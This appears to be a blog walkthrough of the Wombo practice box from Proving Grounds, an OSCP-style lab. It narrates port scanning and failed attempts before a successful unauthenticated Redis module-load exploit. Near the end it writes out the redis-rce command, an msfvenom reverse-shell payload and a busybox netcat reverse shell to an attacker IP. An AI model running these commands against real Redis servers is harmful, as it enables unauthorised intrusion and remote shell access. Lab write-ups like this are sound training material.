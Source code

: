 ```yaml
---
layout: writeup
title: Wombo - Proving Grounds
date: 2024-07-19 13:32:20 +0300
description: A Writeup of the Wombo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's box on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/) we have Wombo from Proving Grounds. This box is rated as Easy, and the community rates it as Intermediate. Let's see how complicated I can make it for myself. And I'll kick things off with an nmap scan revealing: 

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
```

I begin by visiting ports 80 and 8080 while running directory scans in the background. Port 80 looks to be the default landing page for nginx, so we may have to wait for directory scans on that one. 

![Wombo1.png](/assets/images/Wombo/Wombo1.png){: .responsive-image}


Port 8080 looks to be a web app called NodeBB. I click around on that for a while, but it doesn't look like there's much content here. I can create a user, and there is an upload page for a cover photo, but it does seem like it's restricted by file type. If we try uploading a php file for example, the option to crop comes before the final upload button which won't work if it's a php, so we can't make changes in Burp easily. I may have to come back to that. 

![Wombo2.png](/assets/images/Wombo/Wombo2.png){: .responsive-image}


We also have a redis instance on port 6379. It does not require authentication, but enumerating it briefly doesn't reveal anything interesting. I'll have to try a few of the exploits from hacktricks on here like dumping the db, RCE with redis-rogue-server, PHP webshell, and template webshell. Unfortunately dumping the db reveals nothing, redis-rogue-server doesn't work, we can't upload a PHP webshell because the db is read only, and uploading a template doesn't work. 

I am a little tempted by MongoDB on port 27017, if only because the lab is called Wombo. It's just close enough. I am able to access it using mongo `192.168.185.69:27017`, but it requires authentication to show users, collections, or dbs. 

I spent a while trying to find anything to work with here. Port 80 shows nothing at all on directory scans. Port 8080 does return some directories from the NodeBB application, but there don't appear to be any juicy exploits with it, and we have no usernames or passwords to at least kick off a reasonable brute force with it. I can get no information from mongodb, it's not even clear that there actually are any non-empty db's. 

Turns out I had to combine exploits again as with [Sybaris](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/). There is an exploit called [Redis-RCE](https://github.com/Ridter/redis-rce), but the README.md links another exploit to get a required redis module from, and this link is broken. It turns out we can use the `exp.so` module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0)that we used in Sybaris and simply move it to the redis-rce folder. It's pretty annoying because I had tried to load it my kali, but this doesn't work because with Sybaris we uploaded it to an ftp server and were able to load it locally. The final command is:
`./redis-rce.py -r 192.168.185.69 -p 6379 -L 192.168.45.183 -P 6379 -f exp.so`

![Wombo3.png](/assets/images/Wombo/Wombo3.png){: .responsive-image}

This shell had some weird behavior, for example no initial response to the `id` command, and it appeared that some commands were being returned only after a subsequent command was ran. As such, I decided to download another reverse shell and run it from this interactive shell. I used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=27017 -f elf -o reverse27017.elf` and downloaded it, catching it from a penelope listener. 

![Wombo4.png](/assets/images/Wombo/Wombo4.png){: .responsive-image}

Some other command line shells didn't work, but the busybox one actually did (`busybox nc 192.168.45.183 27017 -e /bin/bash`). I'd initially tried it over port 4444, and that wasn't going to work. 

Lessons learned: This was a pretty unsatisfying box for me. I had to combine exploits in a way that wasn't really intuitive, and I'm not sure how I would have done that without looking it up. The module we loaded could have just been packaged with the exploit rather than having a separate module associated with a broken link. So I guess the lesson is that if I need to exploit redis with a public exploit, I either need an an AMD machine or I need to remember to keep pulling the same malicious module from [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server0). Which is indeed a lesson. 

